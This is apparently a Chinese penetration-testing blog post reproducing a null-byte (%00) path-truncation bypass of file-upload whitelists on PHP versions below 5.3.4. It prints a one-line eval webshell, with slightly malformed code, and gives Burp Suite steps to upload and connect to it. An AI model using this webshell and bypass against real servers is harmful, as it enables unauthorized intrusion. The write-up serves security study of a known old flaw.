 ```yaml
---
title: PHP<5.3.4版本上传路径%00截断漏洞绕过文件白名单
date: 2020-05-24 08:50:58
tags: [渗透测试,shell,文件上传漏洞 ]
categories: [渗透测试 ]
---
```


## 准备工具
* burpsuite
* 浏览器
* php webshell file
<!--more-->
## 编写php文件，作为漏洞测试使用
```php
<?php eval(@_post[pp]); ?>
<?php phpinfo(); ?>
```
# 复现
* 使用burpsuite监听拦截8080端口
* 浏览器代理设置为localhost:8080
* 尝试在页面上传webshell文件
* 回到burpsuite ，将上传的数据包右击>发送到重放  ![](https://imgkr.cn-bj.ufileos.com/d96c09d4-730d-4551-b190-11d0361df887.png)
* 将文件名更改为filesname.php .jpg（有个空格，方便寻找其他也可）  ![](https://imgkr.cn-bj.ufileos.com/5e1ee433-4610-47c5-9127-187087a53392.png)
* 切换到hex选项卡，找到空格（或是你的符号）的十六进制，更改为00  ![](https://imgkr.cn-bj.ufileos.com/1212734e-d050-4371-aa15-c027b7f15f66.png)
* 将流量重放，查看返回结果，并利用解析漏洞尝试连接  ![](https://imgkr.cn-bj.ufileos.com/026830b5-407e-407a-99a6-16a2648f7a2d.png)  ![](https://imgkr.cn-bj.ufileos.com/5db3a841-2d2c-42fb-b576-4043cfac4324.png)
